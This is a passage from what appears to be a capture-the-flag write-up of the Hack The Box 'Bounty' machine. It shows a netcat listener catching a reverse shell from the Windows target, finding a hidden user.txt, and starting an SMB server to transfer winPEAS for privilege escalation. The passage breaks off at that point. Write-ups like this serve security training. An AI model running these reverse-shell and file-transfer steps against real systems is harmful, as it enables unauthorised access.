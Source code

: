 See the listener :

```
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.93: inverse host lookup failed: Unknown host
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.93] 49164
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
bounty\merlin
```

Nice, I know have a reverse shell on the machine ! Trying to found the file user.txt :

```
c:\Users\merlin\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5084-30B0

 Directory of c:\Users\merlin\Desktop

05/31/2018  12:17 AM    <DIR>          .
05/31/2018  12:17 AM    <DIR>          ..
               0 File(s)              0 bytes
               2 Dir(s)  11,682,705,408 bytes free
```

It's not here, or maybe I can't see it, so I search how to display hidden files and found this command :

```
c:\Users\merlin\Desktop>dir /ah
dir /ah
 Volume in drive C has no label.
 Volume Serial Number is 5084-30B0

 Directory of c:\Users\merlin\Desktop

05/30/2018  12:22 AM               282 desktop.ini
05/30/2018  11:32 PM                32 user.txt
               2 File(s)            314 bytes
               0 Dir(s)  11,682,705,408 bytes free
```

Here is the user.txt file ! Now to root ! I used winPEAS to get informations about the box, start a smb server for easy file transfert :

```
sudo smbserver.py -smb2support liodeus ./
```

Then launch winPEAS, I used the .bat version because I couldn't make works the .exe one :

